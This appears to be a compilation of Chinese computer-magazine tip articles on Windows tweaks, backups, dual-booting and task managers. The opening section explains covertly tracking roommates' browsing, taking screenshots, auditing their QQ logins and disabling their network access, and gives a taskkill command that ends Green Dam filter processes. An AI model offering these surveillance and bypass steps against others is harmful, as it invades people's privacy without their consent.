花季护航的电脑游戏监管功能，是通过添加指定游戏程序来限制其运行的，这个功能其实就等同于XP以上版本的组策略限制。比如要限制舍友们在我们电脑上运行跑跑卡丁车，执行如下操作即可。
单击“开始→运行”，输入gpedit.msc，回车后打开组策略编辑器，依次展开“用户配置→管理模板→系统”。双击“不要运行指定的Windows应用程序”，设置为“已启用”。然后单击“显示”，添加不允许运行程序的名称kartrider.exe（跑跑卡丁车主程序），依次单击“确定”退出。这样限制列表的卡丁车如果试图运行，系统就会弹出限制运行的提示。

# 技胜一筹！

安装了花季护航后，开启“网上聊天限制”的话，你就没办法聊天啦。在“开始菜单→运行”中输入cmd回车打开命令提示符，输入下列的命令后，即可结束绿坝所有进程：
taskkill /im xdaemon.exe /im hnceng.exe /im MPSvcC.exe /im xnet2.exe /f

# 千里走单骑，追踪上网踪迹

据说80%的木马都来自于不良网站，恰恰有几个哥们喜欢浏览这种类型的网站。绿坝花季护航可以查看使用者的上网记录和抓屏。如果要在宿舍电脑上追踪舍友们上网踪迹，可以借助IndexView（下载地址：http://blog.cfan.com.cn/html/17/201517-130790.html）。
程序运行后单击“文件→打开”，打开C:\Documents and Settings\Whq007\Local Settings\Temporary Internet Files\Content.IE5\index.dat文件查看即可。即使使用者删除历史浏览记录，这个文件仍然会保留在上述位置。如果要自动抓屏，则可以借助“定时抓屏软件CAW”（下载地址：http://www.onlinedown.net/soft/7843.htm），下载后按Ctrl+Alt+S呼出窗口设置自动抓屏间隔即可，抓屏图片自动保存在软件安装目录。

# 技胜一筹！

即使通过查看历史记录的方法“抓到”舍友们上网证据，有些无赖舍友可能还会狡辩，说自己根本没上网。比如，早就知道宿舍哥们上网必开他的QQ，此时不妨使用系统日志的权限审核组件，再给他列举一个“上网铁证”。这里以QQ2008为例。
第一步：首先新建一个名为sheyou账户作为舍友使用专门账户。然后将QQ目录移动到一个NTFS分区如k:\qq2008，找到qq2008\123465 (123456为QQ号) 目录，右击选择“属性”。在打开的属性窗口单击“安全→高级”。
第二步：在打开的高级安全设置窗口，切换到“审核”选项卡上，单击“添加”。在“选择用户、计算机或组”对话框中，选择要审核操作的用户名为“sheyou”。然后勾选审核项目下的“读取属性”的“成功”，表示如果用户成功读取该目录则记录审核事件。
第三步：现在如果舍友使用他的账户登录QQ，右击桌面“我的电脑”选择“管理”，打开计算机管理工具窗口，依次展开“系统工具→事件查看器→安全性”。在审核事件中打开sheyou用户成功事件可以看到，舍友在14:23:04秒开启QQ，他的QQ号码也一目了然。系统登录账号和QQ账号都是舍友的，这下他应该不会再耍赖了吧。

# 别随心所欲，上网时段我来掌控

夜已深，但如果你站在大学的宿舍楼下，依然会看到很多寝室的窗户有亮光——宿舍里的网迷们都是黑夜和白天颠倒的。绿坝花季护航可以设置账户指定时间允许/不允许上网，要实现这个功能，利用系统自带任务计划即可轻松实现。比如要限制舍友周一8:00~17:00不许上网。
首先也是新建一个受限账户sheyou作为舍友专用账户。接着启动任务计划，新建一个每周一8:00开始运行，每隔5分钟运行一次任务，运行命令 runas /user:CFAN /savecred "devcon disable =net" (CFAN为系统管理员账户名，需要手动运行一次以让runas记住密码)
这样到了星期一，这个命令从8:00开始，每隔5分钟就会一次，运行的结果是禁用网卡。由于sheyou是受限账户，即使舍友知道是网卡被禁用也无法开启上网。以后自己要上网，只要输入devcon enable =net即可。
小提示：
如果是Vista/win7用户，如果已经建立标准账户，只要打开“控制面板→用户账户和家庭安全→家长控制”，然后选中需要控制的标准账户，就可以对账户网站访问、登录时间、使用程序进行灵活的限制。

# 安全第一，坏网站从此88

花季护航可以过滤不良信息以保证上网安全，现在使用IE分级审查即可实现其大部分功能。
启动IE后，单击“工具→Internet选项→内容→分级审查”项下单击“启用”，单击“级别”选项，拉动下方的滑块依次设定防黄的级别。接着单击“常规”，在“用户选项”勾选“用户可以访问为分级的站点”，同时设置监督人的密码，这样当其他人试图访问这些分级网站的时候就需要输入监督人密码。

# 技胜一筹！

对于诱惑性的网站，总是挡不住舍友好奇访问。对于此类网站我们还可以借助Hosts文件让舍友们“改邪归正”。启动记事本打开 c:\windows\system32\drivers\etc\hosts文件，然后将舍友经常访问的网址转向到自己学校主页，添加下列代码即可（前面为学校主页IP，使用ping命令获得，后为恶意网址）：202.36.35.69 www.abc.com

# 小提示：

卡巴斯基2009用户也可以使用其自带的家长控制功能保护电脑。在程序主界面单击“内容过滤→家长控制”，选择“启用”开启家长控制。可以手动设定黑、白名单内容的“类别控制”，将一些不良网页、脚本等内容列入。
有一天，梦里，我独自抱着电脑美美地玩着，但宿舍的兄弟们都远远地站着，像陌生人一样，看着我。限制电脑，是好是坏，谁能说清呢？

(文/漂泊的稀饭)

# 长假漫漫，扔掉GHOST，打造新的备份恢复盘

闪盘里装一个PE，可以应急医治系统，在PE下备份及还原系统，效果要好于在Windows运行时进行的热备份。
给我个备份系统的理由！
1. 什么人适合自己打造恢复盘？
首先，你重视系统或者数据，因为系统再稳定，也保不齐中毒、硬件问题等导致的灾难性故障，进而导致数据丢失。
其次，你厌烦了Ghost备份那庞大的体积，以及恢复时霸道地将磁盘数据全“毁掉”。
2. 它比Ghost好在哪？
虽然速度上不占什么优势，但压缩后体积大增，而且支持增量备份。
3. 切记：系统可以备份，爱情不需要备份，一心一意才能修成正果。

## 常用备份还原方式小PK！

| 方式 | 备份方式 | 还原方式 |
| :--- | :--- | :--- |
| Ghost | 传统备份，体积极大 | 覆盖全部扇区、所有数据 |
| Acronis TrueImage | 增量备份，体积大 | 覆盖部分扇区、数据 |
| IMAGEX | 增量备份，体积小 | 覆盖部分扇区、数据 |

小提示： Imagex的缺陷
Imagex恢复的时候不会自己去格式化硬盘，当系统中毒的时候，必须要手工格式化系统之后再进行恢复，而且，它需要用命令行来操作，上手难度大。

## Ghost、Imagex对比（备份系统盘，已用空间6.88GB）

| 软件 | 备份时间 | 还原时间 | 生成映像大小 |
| :--- | :--- | :--- | :--- |
| Ghost | 9分钟 | 8分钟 | 3.0 GB |
| Imagex | 10分钟 | 9分钟 | 2.08 GB |

可以看出二者备份还原时间差不多，但后者的压缩很强悍，比Ghost小了将近1GB的容量。
我们的目的就是利用IMAGEX的优势增量备份。
必要工具具有：IMAGEX_GUI (gimagex.exe)、一键Imagex备份还原向导，在软件包中都有。PE里面没有这两个软件怎么办？把它们加入PE吧，定制一个自己的系统备份恢复光盘！
文中用到的软件都在http://work.newhua.com/cfan/200919/bfrjb.rar中，其他必备工具：
A. UltraISO: http://www.newhua.com/soft/614.htm.
B. WimTool (见软件包).
C. WINPE光盘：http://download.it168.com/114/118/15667/.

## 第一步：把两个大佬塞进PE

用UltraISO把下载下来的PE提取出来，并且保存好ISO的引导文件，例如PE全部文件提取到X:\WINPE_PLUS_V2\，引导文件命名为V2.BIF，保存在X:\根目录。先建立一个空文件夹如OP，放在根目录。
进入WIMTOOL文件夹，双击“WimTool运行库”。找到第一步提取出来的PE文件夹下的OP.WIM文件，用WIMTOOL把OP.WIM文件解压到OP目录下。进入OP，还会看到一个“外置程序”的文件夹，把要添加的gimagex.exe和“Imagex一键恢复”复制过来。

用WIMTOOL“新建和追加”功能，把OP文件夹打包成OP.WIM文件，用新的OP.WIM覆盖掉原版的OP.WIM。

## 第二步：让大佬们安居乐业

找到WINPE.INI文件，这个文件用于PE的配置。双击打开它，找到类似(LINK %Programs%\磁盘光盘工具\磁盘分区管理 WinPM,%systemroot%\system32\WINPM\WinPM.exe)这样的行，在后面作出修改，加入IMAGEX软件的快捷方式：
LINK %Programs%\imagex\imagex备份还原(英文),%OPDir%\imagex\gimagex.exe
LINK %Programs%\imagex\一键imagex备份还原向导,%OPDir%\imagex\OnekeyImagex.exe

## 第三步：幸福之KEY

重新制作PE的ISO文件，一定不要忘记把第一步保存下来的“引导文件”(V2.BIF)加载上，否则制作出来的PE无法启动。
把制作好的ISO量产到闪盘中，或者刻录为光盘，就是一个自己的恢复盘了。

### 怎么使用？

“一键imagex备份还原向导”采用向导方式运行，类似GHOST一键恢复。在“开始菜单→程序→Imagex”就可以打开了。点击“分区备份”即可以开始备份。

### Just Do It：备份及还原系统

一般来说，备份还原系统只需用到Capture (捕获、备份) 和Apply (应用) 两个选项。Source是要备份的分区，Destination是备份到什么地方。其他的选项，用英语知识以及电脑知识自己研究吧！
(北京/杨潇宇)

# 通宵BT不再怕 系统助你省钱花

下载大型文件、电影，很多朋友都选择在夜间不用电脑时间段，这样虽然可以避免对正常上网的影响，但是电脑通宵工作，日积月累，高额的电费也是不容小视的数目。要想既能通宵BT下载又不会花费太狠，你就需要想想点子了。

## 台式机用户的最佳选择：离开模式

在Vista及Windows 7系统中增添的离开模式，系统功耗与待机模式类似，但同时还能保持BT下载不中断，将系统置入此模式无疑是最节省的。
1. 为XP嫁接离开功能
Windows XP系统并没有提供离开模式，需要安装小补丁来实现。
第一步：从http://www.greendown.cn/soft/8432.html下载这款小补丁程序，安装后打开电源管理选项，将会看到多出一个“离开”选项卡，勾选“启用离开模式”选项，同时勾选“鼠标或键盘活动时使计算机从离开模式返回”项以方便唤醒系统，当然也可以直接借助电源按钮来唤醒。
第二步：重新启动系统，连接好网络并开启BT下载功能进行下载，之后直接使用休眠按钮即可将系统置入离开模式了。最后再手工关闭显示器即可。
2. 激活Vista/7系统的离开功能
Vista系统：从http://www.vista123.com/vistamaster/下载“Vista优化大师”程序。运行后在窗口上侧选择“系统设置”项，在左侧面板中选择“系统设置”，在窗口右侧的“系统设置”选项卡中直接勾选“开启Vista离开模式(AwayMode)”项即可。
Windows 7系统：从http://www.onlinedown.net/soft/84522.htm下载Windows 7系统中使用的Windows 7优化大师来设置离开模式。重新启动系统后启动BT下载工具进行下载，然后将系统置入“睡眠”(非休眠)模式即可，网络不会掉线，文件继续下载。

### TIPS：抠门到底！

假如你还嫌这样不够节省，在下载时，将鼠标、键盘统统拔掉，还可以增大硬盘的缓存值(Windows优化大师中的优化组中即可进行设置。)，这样可以减少硬盘的频繁读写操作，从而省出硬盘活动所需的电能。

## 本本一出手，电费可以没有

假如家里有笔记本电脑的话，由于笔记本电脑的功耗比台式机低很多，一般的笔记本电脑的功耗大约在80W左右，而台式机的功耗一般都在240W左右，使用笔记本可以节约2/3电费。在通宵开机状态下，自然就可以大幅度地替我们省电费了。

### 笔记本节能有高招

笔记本都提供了两种工作模式，一种是高性能，另一种则是节能模式，而BT下载并不需要高性能，置入节能模式可以降低系统性能，换得低功耗的好处。
XP系统：打开控制面板，打开电源管理设置项，在打开的窗口中选择“电源使用方案”选项卡，直接设置电源使用方案为“最少电源管理”即可。
Windows Vista/7：打开控制面板，打开“系统和安全→电源选项→更改电池设置”，选择“节能”模式即可。
在进行BT下载时，应该将显示器关闭，例如直接设置显示器在15分钟后自动关闭。但是不能设置待机、休眠、关闭硬盘这些选项。

### 小提示：

现在各种BT下载工具都提供了下载完成后关闭系统的功能，建议开启这个功能，当下载任务完成后直接关机更省电。
TIPS：抠门到底！
本本的鼠标可以拔掉，但键盘不可以，动动脑筋，是不是光驱也可以拔下去呢？没错，许多本本的光驱都是可插拔的，拔下去，嫌丑的话花五块钱买个光驱架塞进去就OK了。
怎么样？掌握了这些小诀窍，BT下载与电费就不会有冲突了吧？
(文/daigua)

# 窥一斑而见全豹 PSD缩略图开“天眼”

从Vista开始，Windows操作系统开始引入一种新的图形技术机制——Windows图像组件，在资源管理器中就能显示一些特殊图片格式的缩略图了。
美中不足的是，一直以来都不存在Photoshop PSD文件格式的解码器，但是新发布的Microsoft Expression Blend 3中却让这成为了历史，它就能让Windows 7为psd文件缩略图开通“天眼”。
首先，下载Microsoft Expression Blend 3 (下载地址：http://tinyurl.com/yauszgp)，用WinRAR解压Blend_Trial_en.exe，然后再次解压其中Setup文件夹中的Blimp.cab文件，可以得到PSDCodec.dll。

然后，再下载Visual C++ 2008 SP1 Redistributable Package (下载地址：http://tinyurl.com/yekpgz2)，右击下载到的vcredist_x86.exe，以“管理员身份”运行它，安装VC++运行库。将PSDCodec.dll拷贝至系统目录中(一般为C:\WINDOWS\system32)，然后以“管理员身份”运行命令提示符，输入：
regsvr32 C:\WINDOWS\system32\PSDCodec.dll

提示注册成功后重启电脑，此时，在资源管理器中显示的PSD缩略图，就不再是单调的蓝色大图标，这样不必打开文件就可以略知它的“真面目”了，真可谓是“窥一斑而见全豹”！
小提示：
建议备份PSDCodec.dll至系统分区外某一目录中，今后重装系统后只需简单操作即可恢复缩略效果。
(福建/周玲生)

## 窗口大一点，世界更清晰
### 放大Vista任务栏的预览窗口
Vista的任务栏预览功能是一项创新，但饼干大小的预览几乎看不清窗口中的内容，以至于其沦为鸡肋功能。不如自己动手，用Vista Thumbnail Resizer（下载地址：http://tinyurl.com/n2yd7yl）这款软件让它重获新生。运行程序后，在Max Height和Max Weight可以设置预览窗口的高和宽，设置后立即生效。如想每次启动设置都生效，还可选择“Start AveVistaThumbnailSizer with Windows”。怎么样，文字更清晰，图像也不模糊了，赶快动手试试看吧。

## 收藏夹的计划
不知道大家注意过没有，在Windows 7系统中，当你想保存某个文件到硬盘中的任意一个目录下时，在弹出的“保存为”或“另存为”对话框的左边，都会有一个名为“收藏夹”的项目。选择“收藏夹”下边所包含的“下载”、“桌面”等选项，都可以将需要保存的文件保存到相应的目录下。但是“收藏夹”下边所包含的选项太少，如果能够把自己经常保存不同类型文件的多个目录添加到“收藏夹”分支下，这样保存相关文件到与之对应的某个目录下岂不是更方便了？方法很简单，随我来。

先打开C:\Users\syhl999\Links目录（syhl999为当前登录的系统账户），会发现“下载”、“桌面”和“最近访问的位置”三个快捷方式；然后打开自己经常保存各种不同类型文件的文件夹（如E盘根目录下的“高清大片”文件夹），拖到这个窗口中即可。对其他文件夹，重复此操作即可。

经过以上步骤的操作，再保存文件时，在对话框中，就包含自己所添加的保存各种不同类型文件的目录选项了，而选择某个新添加的目录选项，同样可以很方便地将文件保存到对应的目录下。

> （山东/华军）

## 《泰坦尼克号》Titanic(1997)
类型：爱情/剧情
影片以真实事件为背景，编织出一个美丽动人的爱情故事。1912年4月15日，载着1316号乘客和891名船员的豪华巨轮“泰坦尼克号”与冰山相撞而沉没。沉船的场面真实到如同身临其境，某些视角的镜头简直让人目瞪口呆。主人公杰克和露丝的爱情成为一代经典。荣获奥斯卡最佳影片、最佳导演等多项大奖，并把好莱坞叛逆小生莱昂纳多·迪卡普里奥改造成青春偶像。

## 我家大门常打开，欢迎你住进来
### 让Win7与Ubuntu和谐共处
用惯了Windows，菜鸟也想玩儿回“乌班图”，且看系统达人是如何调解纠纷，让它们和谐相处。

### 居委会调解纠纷手册
需要做的准备有：从最新版的grub4dos中提取出的grldr和grldr.mbr文件，下载Ubuntu的映像文件，提取Casper文件夹下的vmlinuz和initrd.gz两个文件。
代码汇集在这里http://tinyurl.com/yayyxro，文中所涉文件及软件在此下载http://www.multiurl.com/l/Zh。

### 给 grldr.mbr 在启动项里加座儿
- 1. 搬boot.ini过来引用
将grldr和grldr.mbr放在系统盘根目录下，同时在此目录下创建boot.ini文件，编辑内容为【代码1】。
需要注意的是，boot.ini文件中的c:\grldr="ubuntu"，在Win7中这组引号一定要有，而在XP下却是可有可无。

### 2.用easybcd组装一个
这款软件以图形化的界面，免去了cmd下调用bcdedit命令时头痛的摸索操作。以管理员身份运行easybcd，依次点击“Add/Remove Entries”→“NeoGrub”→“Install NeoGrub”，添加了一个名为“NeoGrub Bootloader”的启动项。

### 编写 menu.lst 文件
把准备好的ubuntu.iso、vmlinuz和initrd.gz放于C盘根目录下，新建menu.lst文件，写入【代码2】。重启后会出现操作系统的选择界面，选择“ubuntu”后就可以开始安装。安装过程中不要写入MBR，安装完成后，删除先前所建立的menu.lst文件，grldr会自动搜索存在于ubuntu系统中的menu.lst文件来启动。至此，就可以开始享受你的“乌班图”之旅了。

## 升级系统没有安装盘？抓硬盘来做苦力
Win7的上市惹得喜欢尝鲜的众IT小白鼠们心痒痒，许多人迫不及待地想要尝鲜，可是手头一时没有安装光盘怎么办？那就找HDD Installer来帮忙，抓硬盘来做系统安装盘的苦力！

HDD Installer（下载地址：http://bit.ly/QreVq）适用于Windows2000及以上系统下硬盘安装Windows 7/2008。尽管网上有很多教程指导如何用硬盘来安装系统，但繁琐、复杂的操作让新手望而却步。HDD Installer的图形化界面干净利落，容易上手。下载欲安装系统的ISO镜像文件，用WinRAR或者其他软件解压到本地硬盘任意分区根目录（除当前系统分区和将要安装分区外），并在镜像解压位置处选择，执行后软件会自动设置相关内容，并重新启动电脑，启动后会看到一个由它生成多重启动菜单，选择HDD Installer即可进入安装流程。想装双系统的还可以在安装之后使用它的引导项修复功能。

网络大补贴：
HDD Installer图文帮助，http://bit.ly/CLnPB。

## 1TB以上硬盘，如何装一键还原？
随着系列硬盘价格的逐步下调，它已经逐渐走入我们的生活，但是喜欢尝鲜的朋友们却发现：我们熟悉的一键还原精灵，却不能直接安装使用，一旦安装将造成分区表的损坏而不能引导系统，那么到底有没有办法解决这个问题呢，答案是肯定的，闲言少叙，在新的软件出来之前，本人经过摸索发现，按以下步骤即可解决：

- 第1步：分区，这个过程需要使用PQ Magic软件，对于新的硬盘在分区的时候留出一个小分区，如果是XP系统3G左右的分区就够了。
- 第2步：下载安装一键还原精灵装机版（http://www.onlinedown.net/soft/32855.htm），不要选择默认的方式一，选择“安装方式二”就可以了，这个选项不更改分区表。重启之后软件将显示“自动升级一键还原精灵”，如果万一误操作选择了第一项将导致不能引导系统，这时只需要光盘引导进DOS，执行FDISK/MBR即可恢复正常。至此让诸多FANS头疼的问题已经搞定。

> （河北/张宏石）

## 不要宰牛刀，MD5值校对更方便
在一些比较正规的网站或论坛下载软件时，在软件下载链接旁边一般都会提供该软件原始的MD5值。用MD5值工具计算出下载软件的MD5值，和原始MD5值进行校对，就可判断出下载的软件是否被修改过。但是，使用专门的工具对下载的软件进行MD5值校对比较麻烦，二来也有“杀鸡用牛刀”之嫌。其实，仅仅利用一个动态链接库文件，就可以完成MD5值的校对工作。

### 上户口
先从http://work.newhua.com/cfan/200922/hashtab.rar下载压缩包HashTab.rar，解压到硬盘的任意位置（如“C:\MD5值校对”目录下）；接着在“开始→运行”中输入“regsvr32 /s C:\MD5值校对\HashTab32.dll”并按下回车键，完成动态链接库文件HashTab32.dll的注册工作即可。

### 巧校验
完成上述操作后，右击需要进行MD5值校对的文件并选择“属性”时，如图所示，已经多了一个选项卡：“文件哈希值”○。在校对第一个文件时，选择“设置”，在该对话框中勾选与需要显示的哈希值所对应的复选框（如“CRC32”复选框、“MD5”复选框和“SHA-1”复选框）；最后单击“确定”按钮，此时在图A处○所示的显示区域中，就可以看到与勾选的复选框所对应的不同类型的数据了。
在“文件哈希值”中，计算出所选文件的MD5值后，接着将与所选文件对应的原始MD5值粘贴到图B处○所示的文本框内，如果该文本框左边出现了一个对号，则证明校对的文件没有被修改过；反之，校对的文件则被修改过了。

小提示：
有些文件即使被修改过，黑客也可以让MD5值完全相同。对于重要文件，可仿照校对MD5值的方法，将软件下载链接旁边提供的原始“CRC32”值或“SHA-1”值粘贴到图B处所示的文本框内，再执行校对操作即可。

> （山东/新玲的窗户）



## 穿上神速靴，不怕OUT，路径“秋技7宗最”
### 前言：关于最
提起“最”这个字眼，古已有之，诗词歌赋常用，白居易《钱塘湖春行》中有“最爱湖东行不足”的佳句。到了现代，羽泉的一首《最美》浪漫无比，曾哥《最天使》雷人无数。娱乐终归是休闲、扯淡，还是谚语说得好：“最大的财富是健康，最珍贵的礼物是宽恕”。

如果你使用Win7，又有人告诉你：C:\Windows\Web\Wallpaper文件夹下有很多漂亮的图片，你会怎样打开它呢？逐级打开“计算机→C盘→Windows文件夹→Web文件夹→Wallpaper文件夹”，那你就Out啦！看似层层目录遥不可及，其实涉及的就是路径问题，简化了路径能让操作事半功倍：Windows 7的库、相对路径等。系统的默认路径拖沓冗余不说，影响操作。少走弯路，才是王道！

### 穿上神速靴，抵制“路径依赖”
所谓路径依赖，是诺贝尔经济学奖得主道格拉斯·诺思提出的一个理论，指人们一旦做了某种选择，惯性的力量会使这一选择不断自我强化，并让你轻易走不出去。在电脑操作上，长期的操作习惯很可能都是绕远的行为。

### 秋技1：本机统一管
Vista/7的路径显示方式如图1所示，单击任一文件夹都可直达那里，而且它右边还有一个三角形按钮，通过它可展开其下的目录以方便进入。更神奇的，在于Win7系统的“库”。



### 小知识：
库，其作用与网页收藏夹作用类似。收藏夹中的网址，可让你随时访问远在天边的网站，库则可直接打开深藏在本地电脑或局域网任意位置的文件夹。

在Win7下打开任意一个文件夹，可在导航栏里观察到“库”，默认地，已包括视频、图片、文档等项目。右击“库”选择“新建→库”，还可继续添加其他项目，如图2所示。再右击新建的库，选择“属性→包含文件夹”，即可将文件夹链接到这里。



### 秋技2：网内部入库
如果要将局域网的共享文件夹添加到库中，必须先将共享文件夹设置为脱机文件。比如要设置CFAN文件夹，在资源管理器的左侧找到“网络”（即XP系统下的网上邻居），展开它即可观察到已共享出来的计算机，通过共享出来的计算机找到CFAN后，右击选择“脱机始终可用”，完成后可观察到该文件夹上出现脱机标志。接着，就能像前面那样将已设置为脱机的共享文件夹添加到库里了。

今后，只要打开库即可直接访问库下的文件夹。更重要的是，通过库访问的文件夹会随源文件夹的更新而自动刷新。

### 小提示：
相对路径的更深一层应用，在于用脚本对系统进行操作，而且使脚本具有更广阔的适用性。比如：使用脚本来清除临时文件时，如果在其中加入“%temp%”就能对安装于任何分区的系统都适用。

### 秋技3：让百分号带你走捷径
方便的路径操作还表现在相对路径上。形如C:\Windows\Web\Wallpaper的路径是绝对路径，表达位置关系时准确无误。如果系统安装到D盘，那么，上面的路径就是D:\Windows\Web\Wallpaper。对应地，相对路径就能很好地解决这一问题，可表示为%windir%\Web\Wallpaper，其中%windir%的表示当前系统的安装位置，可以是C:\Windows、D:\Windows、E:\Windows……等中的任意一个。部分相对路径如下表所示。

| 相对路径 | 真实路径 | 说明 |
| :--- | :--- | :--- |
| %HOMEDRIVE% | C:\ | 当前启动的系统的所在分区 |
| %windir% | C:\WINDOWS | 当前启动的系统的所在目录 |
| %USERPROFILE% | C:\Documents and Settings\用户名 | 当前用户数据变量 |
| %temp% | %USERPROFILE%\Local Settings\Temp | 当前用户TEMP缓存变量 |
| %AppData% | C:\Documents and Settings\用户名\Application Data | 应用程序数据目录 |
| %HomePath% | C:\WINDOWS\system32 | 系统目录 |

有了相对路径，直接输入即可直达对应的地方。比如：在开始菜单下输入“%ProgramFiles%”，再按回车键即可打开X:\Program Files文件夹窗口（X表示安装系统的分区）；如果在命令提示符下输入则打开这一目录，如图3所示。

### 改头换面，默认路径我来改
在Windows系统里，为规范管理，很多路径是固定的，比如C:\Program Files是用户安装应用程序的位置。“我的文档”用于存放用户文件。C:\TDDOWNLOAD用于保存迅雷下载的文件。这些默认设置，会很快占满你的C盘空间，快快动手修改吧！



### 秋技4：垃圾箱岂能在屋里？
系统默认存放IE临时文件、虚拟内存等都在系统分区，哪有把垃圾箱放在屋子里这么愚蠢的做法？改个路径，把垃圾箱搬到院子里。

右击“我的电脑”选择“管理→存储→磁盘管理”，划出一个大概4GB的分区（如G:），专门用来存放临时文件。比如虚拟内存文件pagefile.sys，具体修改方法以前已经介绍过无数遍，这里就不废话了。来说说如何清理IE的缓存文件。

打开IE，点击“工具→Internet属性→IE临时文件夹→设置→移动文件夹”选择G:/TEMP，确定。然后新建记事本，输入：del G:\temp\*.* /s /f /q
即开机删除临时文件夹里面的所有文件（不删除文件夹），把后缀名改为.bat，然后把它拖到“开始菜单”里的“启动”，每次开机就会自行删除垃圾文件了。

### Just Do It: 程序，别总跟C盘套近乎
打开注册表，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion]，将ProgramFilesDir键的值（默认为C:\Program Files）修改为D:\Program Files，重启电脑后生效。今后，安装的程序都会自动转移到D:\Program Files，而且，在通过备份恢复操作系统后，大多数软件都用不着重新安装。

### 秋技5：收藏夹“固定不变”
收藏夹默认的路径是C:\Windows\Favorites，常规做法：重装系统时事行备份，装后拷过去覆盖。但很多朋友经常会忘记，辛苦收藏的网址全没了。把收藏夹的路径设到别的盘，就再也不用担心重装系统时而忘了备份的烦恼了。

把收藏夹C:\Windows\Favorites复制到E盘，运行注册表编辑器，展开[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]，双击Favorites，将数值数据修改为E:/Favorites即可。

### 秋技6：网络软件行行好
对于迅雷、快车、彗星、电驴、纳米机器人等网络软件，其默认下载目录都在C:\download(s)目录下，软件本身就可以修改。比如迅雷，在迅雷主界面上单击“工具→配置”，再在“类别/目录”下单击“默认目录”后的浏览按钮，指定到其他位置即可。

### 小提示：
关于修改默认路径，本处所列可能不足“万分之一”，仅是为了让各位朋友知道有这么一回事，建立修改默认路径以达到有效地节约系统盘空间、保护好自己文件的观念。

### 秋技7：特别策划，Q&A问答
Q：一些常用的软件都会不断地升级，升级了之后原软件的路径会改变吗？会不会出现两个相同软件存在的情况？
A：现在大多数软件通过自身升级后，仅是覆盖原软件所在目录的文件，基本上安装新功能需要的部分，不会改变路径，注册表信息。

Q：刚装完Ghost系统，访问局域网，却提示找不到网络路径，别的电脑都正常……
A：一般Ghost系统都要设置一下才可以：打开“网上邻居→设置家庭或小型办公网络”，填写计算机名称和所属网络，如MSHOME，要选上“启用文件和打印机共享”，确定后试试即可。

> (四川/李学昌)

程序越来越多，软件越来越大，机器越来越慢，遭遇卡死是所有电脑玩家的必修课。曾经软弱的Windows任务管理器现在如何？有了好兄弟们的帮忙，它能否再次雄起？大熊带你一探究竟。

## “结伴儿”治假死，有效率；“组团儿”管进程，不忽悠
### AntiFreeze，假死后的救命稻草
老机器跑多了软件，难以避免会出现假死的情况，往往是一个程序没有响应，殃及了整个系统，甚至连任务管理器都调不出来，许多未来得及保存的工作成果很可能就毁之一旦了。AntiFreeze这款软件彻底杜绝了这样的烦恼，它利用较高的优先级以托盘图标形式驻留系统，当系统停止响应时，可以使用快捷键ALT+CTRL+WIN+HOME激活AntiFreeze，它会截住所有占用资源的程序，然后弹出一个独立于系统的应急任务管理器，供你关闭停止响应的进程，恢复到工作状态。

### 小技巧：绝杀所有进程
cmd中输入“ntsd -c q -p【PID】”，可以强行关闭任意进程。括号中填入欲关闭进程的PID，可以在任务管理器中看到，选查看->选择列，勾选“PID（进程标识符）”即可。

### SuperF4，关窗口没商量
众所周知，Alt+F4这组快捷键可以关闭程序，但当电脑处于假死状态，有些窗口就没那么容易关掉。如果你开着SuperF4，那只需按下快捷键Ctrl+Alt+F4，所有窗口统统杀掉。但请注意，它会自动关掉处于最前台运行的程序而没有任何提示，连资源管理器explorer也不会放过，所以一定谨慎使用哦！它还有一组快捷键Win+F4，按下后鼠标会变成一个骷髅头，点击目标窗口之后，强制结束掉目标。

### 小技巧：快速自动关闭没有响应的程序
在注册表中打开HKEY_CURRENT_USER\Control Panel\Desktop目录，新建一个字符串值命名为AugoEndTasks，值设为1；将WaitToKillAppTimeout的值设为1000。

### Process Manager，右键管理进程
这是一款轻量级的任务管理器，右键就能轻松实现很多功能。运行后其图标驻留在任务栏的托盘中，右键单击对应的窗口，有Kill（关闭进程）、Priority（优先级）、Always On Top（总是置于最前台）、Transparency（透明度）等简单实用的功能供选择。

### 小技巧：
Alt+Ctrl+Del老是弹出对话框需要选择，如何能直接启动任务管理器？
方案A，使用组合键Ctrl+Shift+Esc。
方案B，右击任务栏空白处，选启动任务管理器。

### Win7任务管理器，宝刀未老
从Vista开始，任务管理器性能标签下多了一个“资源监视器”按钮，当时功能比较单一，但到了Win7时代，资源监视器再次升级，功能更加丰富，CPU、磁盘、内存、网络的使用情况一目了然。以前经常遭遇的移动磁盘无法安全删除的问题，可以用监视器轻松解决，因为被占用而无法删除的文件也可以效仿此法来解决。

### 火速链接：
《挖出进程背后的秘密》，2008年06期，第34页。

### 网络大补贴：
文中所涉软件下载
http://www.multiurl.com/l/Y3
任务管理器全攻略
http://www.multiurl.com/l/Y0

> (文/刘家艺)

## EASY到底，内存速当硬盘使！
随着计算机不断地更新换代，内存愈来愈大，最近主流内存开始向4GB迈进。内存大的好处，除了让电脑运行速度更快之外，也可以用部分内存变身为硬盘来使唤！可极大地提高文件读写速度。如今内存变硬盘的软件也有不少，但是经过一番对比筛选后，笔者向大家推荐VSuite.Ramdisk免费版，下载地址是http://www.crsky.com/soft/16474.html，下载后解压缩，双击里面的VSuite.RamdiskFre.exe程序进行安装。

### 怎么用？
在“硬盘容量”栏里可输入准备要虚拟成硬盘的内存空间大小，例如64MB。点击“创建”按钮，会在上方列表里看到虚拟盘符，例如此处是Z盘，打开Z盘就是由内存虚拟生成的硬盘，使用一下吧，感觉如何？

### 怎么删？
如果要删除内存硬盘，将其恢复成内存，只需点击“删除”，跳出询问对话框，点击“是”，即可将虚拟硬盘删除。

### 小提示：
操作系统并不能识别所有的内存，但是VSuite.Ramdisk就可以将那些无法识别到的内存虚拟成硬盘加以利用，这又算是它的功德一件吧。

> (重庆/陈佳)

## 软件搬家，XP到7总动员
在硬盘上全新安装Win7后，我也有双系统了，High了一小会儿，突然很想念在XP下使用的那些软件。偶然发现了传说中的Windows Easy Transfer，哈哈，真是天助我也，就让它来轻轻松松地完成XP软件的大搬家。

### 小知识：
Windows Easy Transfer本来是Vista的重要组件，专门用于硬盘数据的转移，该工具经过重新设计后，可靠性且实用性得以提升：可轻松地将重要文件、电子邮件、图片和设置从旧电脑迁移到新电脑，还包括用户配置信息。因其方便实用被Win7继承下来了（确切地说是“保留”）。



环境：XP系统安装在C盘，Win7安装在F盘。

### 第一步，目标：生成传输文件
